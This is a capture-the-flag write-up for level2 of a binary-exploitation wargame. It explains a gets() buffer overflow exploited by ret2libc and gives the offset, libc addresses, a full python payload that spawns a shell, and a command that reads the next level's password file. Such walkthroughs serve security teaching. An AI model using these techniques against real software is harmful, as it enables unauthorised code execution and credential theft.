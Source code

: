 # Level2

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level2
  randomstring
  randomstring
```

> It looks like the programs only prints what you write on standard input.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). Like the previous level, this one uses `gets()`, so we can do a **buffer overflow** once more but this time there is no planned way to spawn a shell inside the program.

After some research we find that since **ASLR** is off, we could do what's called a [`ret2libc attack`](https://shellblade.net/files/docs/ret2libc.pdf). For this to work we only need to find:

- The buffer offset.
- The Addresses of `system()`, `exit()` and one `ret` instruction.
- The Address of the string `/bin/sh`.

Once we get those, we use the buffer overflow to override the list of instruction stored in **EIP register** once again to execute a `system("/bin/sh"); exit();` basically. Thanks to our `gdb` analysis we get:

- Offset is **80**.
- `ret` instruction: `0x0804853e`
- `system()` function: `0xb7e6b060`
- `exit()` function: `0xb7e5ebe0`
- `/bin/sh` string: `0xb7f8cc58`

The attack is constructed as follow: first induce the overflow then trigger a ret instruction followed by a call to `system()` then `exit()` and finally `/bin/sh` by pushing their addresses in this order on top of EIP. Using the `cat` trick like in previous level, we'll get a working shell running as `level3`.

```shell
  $> (python -c "print '\x90' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1]"; cat) | ./level2
  $> cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

So next user credentials pair is `level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`.

Check [here](./source.c) for reproduction source-code of this binary.